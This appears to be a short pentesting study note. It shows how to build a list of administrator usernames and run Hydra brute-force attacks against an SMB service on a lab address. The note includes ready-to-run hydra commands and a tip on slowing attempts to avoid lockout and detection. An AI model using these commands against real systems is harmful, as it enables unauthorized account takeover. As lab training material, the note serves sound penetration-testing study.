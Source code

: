```yaml
---
tags:
  - Pentesting
aliases:
  - 00xNetrunner
sticker: vault//Hacking Pentesting/assets/hydra-logo.svg
banner: https://files.oaiusercontent.com/file-pFbFziWYk9GxtnJMnwHM48hn?se=2023-11-19T02%3A00%3A30Z&sp=r&sv=2021-08-06&sr=b&rscc=max-age%3D31536000%2C%20immutable&rscd=attachment%3B%20filename%3Dab9bbaa5-1fd2-4b0c-ab19-7f872cbc0ffa.webp&sig=1bh2C82Q1bkafw2dQeGQKJTtbz9BH/OdOvmZqEZPhDY%3D
---
```


![[SystemHacking_Figure_1.png|200]]

# 1.0 HYDRA
---
![[hydra-logo.svg|250]]
After completing the enumeration stage of the penetration test, we would have obtained a comprehensive list of the administrators. Upon obtaining this list, we will proceed to extract the usernames and compile them into a .txt file.  
  
Please find below the complete list of administrators:~

Administrator
A.George
G.Walsh
B.Greene
M.Mills
P.Armstrong
Y.Burton
B.Rice

we have added them to a list called users.txt
![[Pasted image 20231111143527.png]]

Now that we have the list on names saved we open up the terminal and we run hydra

```bash
hydra -V -L users.txt -P /usr/share/wordlists/small.txt smb://192.168.10.1 -o passwords.txt
```

if you want to speed this up you can run this instead
```bash
hydra -L users.txt -P /usr/share/wordlists/small.txt -t 16 smb://192.168.10.1
```
>This is a parallel task, it will speed up the speed of the bruteforce attack, but may also trigger a lockout 
>>to avoid detection, it would be wise to create a script that has sleep intervals or add -t 4 somewhere in the command

###### 1.2 Hydra Command Breakdown
---------
**Command**:  **`hydra`** -L users.txt -P /usr/share/wordlists/small.txt -t 16 smb://192.168.10.1 -o cracked.txt
